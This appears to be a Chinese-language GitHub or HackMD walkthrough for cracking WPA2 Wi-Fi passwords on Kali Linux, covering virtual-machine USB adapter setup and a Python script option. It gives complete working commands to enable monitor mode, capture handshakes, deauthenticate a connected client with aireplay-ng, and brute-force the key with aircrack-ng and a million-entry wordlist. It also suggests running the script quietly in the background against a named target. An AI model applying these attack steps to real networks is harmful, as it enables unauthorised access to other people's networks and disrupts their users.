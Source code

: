 # wifi: what's cracking? 文件說明

> Author: Junner
> Date: 12/05/2024
> Code: https://github.com/HackerSir/My-Waifu-Is-Not-Safe
> Description: [HackMd](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)

## 大綱

> * [虛擬機設定](#For-Connection-network-configuration)
> * [用指令攻擊](#Crack-a-wifi-password-using-commands)
> * [用 Python 攻擊](#Crack-a-wifi-password-with-Python-scripts)


## 所有指令

用 root 權限執行，密碼是 `kali`。

打開 managed mode 與測試
```bash=
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
airmon-ng start wlan0
aireplay-ng --test wlan0
```

獲得目標的 MAC 與 ACK
```bash=
airodump-ng --essid alEx wlan0
airodump-ng --bssid 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/nets/test1/ wlan0
aireplay-ng -0 20 -a 6A:D1:4D:7D:BE:72 -c 50:C2:E8:0B:44:55 wlan0
```
```bash=
aircrack-ng -a2 -b 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1/*.cap
```
## 網路設定

用管理員權限運行 VMware Workstation

當 usb 裝置插入時，這個視窗將會彈出。選擇 `Connect to Virtual machine` > 選擇目標虛擬機器。

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

執行 `iwconfig`，會看到該裝置。
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

如果你透過執行「lsusb」看到該設備名稱，但沒有看到它出現在「iwconfig」中，請重複執行上述步驟，或檢查下方的網路設定。如果執行了多次但仍看不到該設備，請重新啟動虛擬機器。

設定方式：
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
不需要 bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
通常 usb 裝置名稱會識別為 `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)

這樣設定就完成了。享受你的攻擊之旅吧！

## 用指令攻擊

首先，終端機要開啟 root 權限，密碼是 `kali`。

### 打開 Monitor Mode

為了攻擊，需要為 usb 裝置打開 monitor mode

```bash=
ifconfig wlan0 down
```

運行這個後，設備將會連不到網路。
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
如果看到警告，無視他就好。
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

為了測試 monitor mode 已經成功啟用：
```bash=6
aireplay-ng --test wlan0
```

如果看到「Injection is working!」，那就是成功了。
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### 關閉 monitor mode 和恢復網路連線

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```

因為你關閉了網路管理員，要恢復的話就跑：
```bash=3
service NetworkManager restart
```

### 攻擊程序

#### 1. 獲得目標 BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `6A:D1:4D:7D:BE:72`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 獲得連線到目標的裝置的 BSSID
```
airodump-ng --bssid 6A:D1:4D:7D:BE:72 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

檔案會儲存在 `/home/kali/Desktop/nets/`，並有著 `test1` 的前綴。

等待 5 至 30 秒，`STATION` 的下方將會出現一些地址。
<!-- By the way, the channel `CH` should stay at `1`. -->
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

開啟另外一個終端機，而上一個執行的指令必須還在執行中，毋須關閉。
```
aireplay-ng -0 20 -a 6A:D1:4D:7D:BE:72 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

ACK 的副檔名是 `.cap`。通常最新的檔案的名稱會包含著最大的數字。
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

然後！爆破！

```
aircrack-ng -a2 -b 6A:D1:4D:7D:BE:72 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## 用 Python 爆破密碼。

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。


基本上會改的部分就是 `target`、`file_path`、`passwordSet_path`。

主要：
* `target`：要攻擊的目標名稱。

其他還有像是：
* `file_path`：要儲存的檔案**路徑**。
* `passwordSet_path`：密碼集文字檔的所在地。

![圖片](https://hackmd.io/_uploads/BJkkIEy4Jg.png)

